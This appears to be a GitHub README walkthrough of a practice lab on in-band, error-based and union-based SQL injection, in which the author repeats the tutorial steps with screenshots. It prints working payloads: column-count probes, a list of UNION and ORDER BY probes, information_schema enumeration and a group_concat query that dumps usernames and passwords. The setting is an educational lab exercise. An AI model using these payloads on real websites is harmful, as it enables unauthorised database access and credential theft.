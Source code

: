 ### In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.


### Error-Based SQL Injection

This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 


### Union-Based SQL Injection

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


### Practical:
Click the green "Start Machine" button to use the SQL Injection Example practice lab. Each level contains a mock browser and also SQL Query and Error boxes to assist in getting your queries/payload correct.

Level one of the practice lab contains a mock browser and website featuring a blog with different articles, which can be accessed by changing the id number in the query string.


The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).


Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure. 


The first thing we need to do is return data to the browser without displaying an error message. Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:

```
1 UNION SELECT 1
```

This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:

```
1 UNION SELECT 1,2
```

Same error again, so let's repeat by adding another column:

```
1 UNION SELECT 1,2,3
```

Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.

```
0 UNION SELECT 1,2,3
```

You'll now see the article is just made up of the result from the UNION select, returning the column values 1, 2, and 3. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:

<br>

> examples of payloads for it

```

1 UNION SELECT 1
      
1 UNION SELECT 1,2

1 UNION SELECT 1,2,3

1 UNION SELECT 1--                      #portswigger  
      
1 UNION SELECT 1,2--                      #portswigger

1 UNION SELECT 1,2,3--                      #portswigger

' ORDER BY 1--                      #portswigger

' ORDER BY 2--                      #portswigger

' ORDER BY 3--                      #portswigger

' UNION SELECT NULL--                      #portswigger

' UNION SELECT NULL,NULL--                      #portswigger

' UNION SELECT NULL,NULL,NULL--                      #portswigger

```


```
0 UNION SELECT 1,2,database()
```

You'll now see where the number 3 was previously displayed; it now shows the name of the database, which is sqli_one.


Our next query will gather a list of tables that are in this database.

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users. 


As the first level aims to discover Martin's password, the staff_users table is what interests us. We can utilise the information_schema database again to find the structure of this table using the below query.

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name, the table we are querying in the information_schema database has changed from tables to columns, and we're searching for any rows where the table_name column has a value of staff_users.


The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML ***<br>*** tag that forces each result to be on a separate line to make for easier reading.


You should now have access to Martin's password to enter and move to the next level.

*************

## Let's go to hacking with mr.4bo-4yman ;)        
i will follow the same steps which we learned  GOO;


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cf76b5b-82c9-4d3c-b5e1-f0f4e799d18a ">
</p>

This default page, we try ***id=2***

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/704f2e5e-daa5-4b4a-9725-d3d06abe9c4e ">
</p>

We need to know this site exist SQL Injection OR No , We try ```'``` or ```"``` to know this.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/55d4d594-6438-4ad8-b478-92b319d7589c ">
</p>

Now, We all know that exist SQL Injection , LET'S GO ;)

First we try it :


```
1 UNION SELECT 1
```

And

```
1 UNION SELECT 1,2
```

And
```
1 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3ca5f799-54b8-4f40-84e1-343f20954fb9 ">
</p>

this failed.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/56079864-1ded-429f-9079-29a1f88289d9 ">
</p>

This failed.


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2f40d53b-439e-4b69-ba2a-682f393d1f2d ">
</p>

WOOW, This successful! 

#### what is the Next ?

We change id from ```1``` to ```0``` :

```
0 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cda1be0-f704-48c0-9f75-d1cf0e67024a ">
</p>

Verry Good, We access to Database.
Now i will try it:

```
0 UNION SELECT 1,2,database()
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/334e9086-2ceb-45e7-9ac5-83a58f2e0d5e ">
</p>

sqli_one is name of database and now access to sqli_one.


```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0eaf4817-3692-48e5-8f24-f12a77dcdc5e ">
</p>


Now, we will try it:

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2d149e5b-ca76-4718-a246-6a49525999b1 ">
</p>

Now, We try it:

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0c8f0dc2-577d-4395-bee1-848b40ba8e28 ">
</p>

### WOOOOW!!! 
WE GET PASSWORD OF MARTIN IS : ```pa$$word```  GOOD BYE ;)



For more details of database-specific syntax, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). 




<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****

